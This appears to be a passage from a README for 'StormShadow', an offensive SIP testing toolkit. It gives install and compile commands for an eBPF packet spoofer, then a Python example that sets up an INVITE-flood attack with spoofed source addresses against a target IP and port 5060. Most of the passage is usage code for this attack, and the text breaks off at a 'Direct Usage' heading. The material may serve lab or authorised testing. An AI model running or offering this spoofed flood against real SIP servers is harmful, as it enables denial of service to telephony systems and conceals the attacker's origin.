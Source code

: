 ### Installation
```bash
# Check dependencies
make check-deps

# Install dependencies (Ubuntu/Debian)
make install-deps

# Or manually:
sudo apt-get install clang llvm libbpf-dev linux-headers-$(uname -r)
```

## Usage

### Compilation
The eBPF program needs to be compiled before use:

```bash
# Compile the eBPF program
make

# Or manually:
clang -O2 -target bpf -c ebpf_spoofer.c -o ebpf_spoofer.o
```

### Integration with StormShadow
The eBPF spoofer integrates seamlessly with the existing StormShadow workflow:

```python
from sip_attacks.eBPF.attack_inviteflood_eBPF import InviteFloodAttackEbpf

# Create attack instance with eBPF spoofing
attack = InviteFloodAttackEbpf(
    target_ip="192.168.1.100",
    target_port=5060,
    spoofing_subnet="10.0.0.0/24",
    interface="eth0"
)

# Start spoofing (loads eBPF program)
attack.start_spoofing()

# Run the attack
attack.run()

# Stop spoofing (cleans up eBPF program)
attack.stop_spoofing()
```

### Direct Usage
You can also use the eBPF spoofer directly:
